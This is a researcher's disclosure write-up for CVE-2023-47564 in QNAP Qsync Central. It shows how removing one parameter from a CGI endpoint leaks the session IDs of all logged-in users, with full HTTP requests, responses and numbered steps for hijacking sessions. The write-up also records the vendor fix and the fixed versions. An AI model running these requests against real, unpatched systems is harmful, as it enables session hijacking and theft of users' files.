

# CVE-2023-47564
- https://www.qnap.com/en/security-advisory/qsa-24-03
- https://www.cve.org/CVERecord?id=CVE-2023-47564
- CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N (8.1)

"An incorrect permission assignment for critical resource vulnerability has been reported to affect Qsync Central. If exploited, the vulnerability could allow authenticated users to read or modify the resource via a network."

__Date of Discovery:__ December 5, 2023

__Date of Fix:__ February 3, 2024

__Affected Version(s):__ Qsync Central 4.4.x, Qsync Central 4.3.x

__Fixed Version(s):__ Qsync Central 4.4.0.15 (2024/01/04) and later, Qsync Central 4.3.0.11 (2024/01/11) and later

__Summary:__ 
During a resent pentest I got access to a QNAP system as a low-privileged user (here user123). There were no interesting files, so i digged a little bit deeper. 
On the system only the Qsync Central App (https://www.qnap.com/en/app_releasenotes/list.php?app_choose=QsyncServer) was running.
First I tried to find a list of all available users and inspected my proxy history. I stumbled about the endpoint `/cgi-bin/qsync/qboxRequest.cgi`.
This endpoint revealed information about my current user account and actually also my current session ID (sid).

The request looked as follow:

``` http
GET /cgi-bin/qsync/qboxRequest.cgi?sid=60ud018n&_dc=1701766637869&subfunc=qbox&genQboxDeviceList=1&sort=1&filteruser=user123 HTTP/2
Host: vulnhost.com
Cookie: DESKTOP=1; WINDOW_MODE=1; nas_wfm_tree_x=200; QSYNC_SID=60ud018n; QSYNC_USER=user123; NAS_SID=60ud018n; QT=1701766635952
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://vulnhost.com/cgi-bin/
X-Requested-With: XMLHttpRequest
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
```

The response was:


``` http
HTTP/2 200 OK
Server: 
[...]

    <data>
        <device>
            <id><![CDATA[REDACTED]]></id>
            <type><![CDATA[3]]></type>
            <time><![CDATA[2023-12-05 09:57:14]]></time>
            <user><![CDATA[user123]]></user>
            <ip><![CDATA[REDACTED]]></ip>
            <sid><![CDATA[60ud018n]]></sid>
            <uid><![CDATA[REDACTED]]></uid>
            <action><![CDATA[1]]></action>
            <comp><![CDATA[Qsync-File Station]]></comp>
            <desc><![CDATA[File Station login Qsync]]></desc>
            <channel><![CDATA[0]]></channel>
            <online><![CDATA[0]]></online>
            <version><![CDATA[]]></version>
            <QsyncPath><![CDATA[/home/.Qsync]]></QsyncPath>
        </device>
    </data>
    <ret>0</ret>
</logroot>
</QDocRoot>
```


Interesting was the filteruser parameter. I just removed him and for my surprise a list of all users and their session IDs was returned back!
So I was able to hijack the session of every other logged-in user. For a PoC i used one of the sessions to login as a different user.
I reported the vulnerability to QNAPs Bug Bounty Program. The communication was easy and a fix was deployed fast.


__Steps to Reproduce (in detail)__: 

1. Log in to the QNAP Qsync web application as the attacker with a regular, low-privileged user account.
2. Extract the attacker's Session ID (`sid`) from the `NAS_SID` cookie set by the Qsync web application.
3. Use the attacker's `sid` value both in the `NAS_SID` cookie and the `sid` HTTP GET parameter and perform the following HTTP request:

    ``` http
    GET /cgi-bin/qsync/qboxRequest.cgi?sid=yl9osz6l&subfunc=qbox&genQboxDeviceList=1&sort=1 HTTP/2
    Host: vulnhost.com
    Cookie: NAS_SID=yl9osz6l;
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:120.0) Gecko/20100101 Firefox/120.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Referer: https://vulnhost.com/cgi-bin/
    X-Requested-With: XMLHttpRequest
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: same-origin
    Te: trailers
    ```

4. The valid Session IDs of all other users currently logged in to the web application can be extracted from the HTTP response, e.g.:

    ``` http
    HTTP/2 200 OK
    Server: 
    Content-Security-Policy: script-src 'self' 'unsafe-inline' 'unsafe-eval' ; object-src 'self' ; worker-src 'self' blob:
    Vary: Referer
    X-Xss-Protection: 1; mode=block
    Strict-Transport-Security: max-age=0
    X-Content-Type-Options: nosniff
    Content-Type: text/xml
    Date: Tue, 05 Dec 2023 10:32:00 GMT

    <?xml version="1.0" encoding="UTF-8" ?>
    <QDocRoot version="1.0">
    <authPassed><![CDATA[1]]></authPassed><model><modelName><![CDATA[TS-X71U]]></modelName><internalModelName><![CDATA[TS-X71]]></internalModelName><platform><![CDATA[TS-NASX86]]></platform><platform_ex><![CDATA[X86_HASWELL]]></platform_ex><customModelName><![CDATA[]]></customModelName><displayModelName><![CDATA[TVS-471U-RP]]></displayModelName><sas_model><![CDATA[0]]></sas_model><storage_v2>1</storage_v2>
    <encryptfsSupported><![CDATA[1]]></encryptfsSupported></model>
    <firmware><version><![CDATA[5.1.1]]></version><number><![CDATA[2491]]></number><build><![CDATA[20230815]]></build><patch><![CDATA[0]]></patch><buildTime><![CDATA[2023/08/15]]></buildTime></firmware>
    <sp><![CDATA[ALPHA]]></sp><rfs_bits><![CDATA[32]]></rfs_bits><specVersion><![CDATA[1.0]]></specVersion><hostname><![CDATA[Data]]></hostname><DemoSiteSuppurt><![CDATA[no]]></DemoSiteSuppurt><customLogo><customFrontLogo><![CDATA[]]></customFrontLogo><customLoginLogo><![CDATA[]]></customLoginLogo></customLogo>
    <logroot>
    <ADSSupport><![CDATA[1]]></ADSSupport><trustedDomain><enable><![CDATA[0]]></enable></trustedDomain>
        <count>239</count>
        <data>
            <device>
                <id><![CDATA[REDACTED]]></id>
                <type><![CDATA[3]]></type>
                <time><![CDATA[2023-12-05 11:31:50]]></time>
                <user><![CDATA[victim]]></user>
                <ip><![CDATA[REDACTED]]></ip>
                <sid><![CDATA[12345678]]></sid></span>
                <uid><![CDATA[REDACTED]]></uid>
                <action><![CDATA[1]]></action>
                <comp><![CDATA[Qsync-File Station]]></comp>
                <desc><![CDATA[File Station login Qsync]]></desc>
                <channel><![CDATA[0]]></channel>
                <online><![CDATA[1]]></online>
                <version><![CDATA[]]></version>
                <QsyncPath><![CDATA[/home/.Qsync]]></QsyncPath>
            </device>
    [...]
    ```

    The following screenshot illustrates this issue (for privacy reasons, the Session IDs as well as identifying information about the tested QNAP Qsync instance have been redacted):

    ||
    |:--:| 
    |_Leaked Session ID values_|

5. The attacker can use the extracted `sid` values to log in as any of the victims by setting the `NAS_SID` cookie respectively. This allows the attacker to hijack the victim's session and download any file stored on the QNAP system by the victim.